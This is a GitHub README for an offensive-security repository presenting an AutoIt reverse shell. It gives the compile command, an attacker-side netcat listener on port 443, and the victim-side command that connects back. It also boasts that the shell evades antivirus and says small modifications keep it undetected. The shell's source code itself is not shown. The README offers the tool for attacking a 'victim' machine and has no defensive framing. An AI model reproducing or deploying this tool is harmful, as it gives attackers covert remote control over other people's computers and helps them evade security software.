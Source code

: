 <div id="top"></div>
<div align="center">
  <a href="https://github.com/0xvinix/offensive-autoit">
    <img src="https://i.imgur.com/4Rapnym.png" alt="Logo" width="500" height="200">
  </a>

  <h3 align="center">Hacking AutoIt</h3>

  <p align="center">
    Simple AutoIt tools for offensive security.
    <br />
    <br />
  </p>
</div>
<br>

<!-- REVERSE SHELL -->
## Simple Reverse Shell

This is yet another simple TCP connection based reverse shell code, however, this is not detected by antivirus systems until today (23/03/2022). Possibly by its date of use, the code will already be quite detectable, but it only takes a few small modifications to make it not.

<br>
<h3> How to compile 🔨</h3>

To compile the code is very simple, you just need AutoIt v3 on your machine, which you can download from the link below.

https://www.autoitscript.com/site/autoit/downloads/

* cmd
  ```sh
  "C:\Program Files (x86)\AutoIt3\Aut2Exe\Aut2exe_x64.exe" /in "reverse_shell.au3" /console
  ```
<br>
<h3> Usage🔌</h3>

After compiling, just open a port using netcat.

* Attacker
  ```sh
  nc -vnlp 443
  ```
And on the victim's machine, run the compiled file passing your ip and port as an argument.

* Victim
  ```sh
  reverse_shell.exe 127.0.0.1 443
  ```
<br>
<h3> Av Detection (23/03/2022) 🐛</h3>

As already mentioned, until the date of creation of this repository, this code is completely undetectable by any antivirus.

<img src="https://antiscan.me/images/result/m3hwPh2nQ4dC.png">

<p align="right">(<a href="#top">back to top</a>)</p>
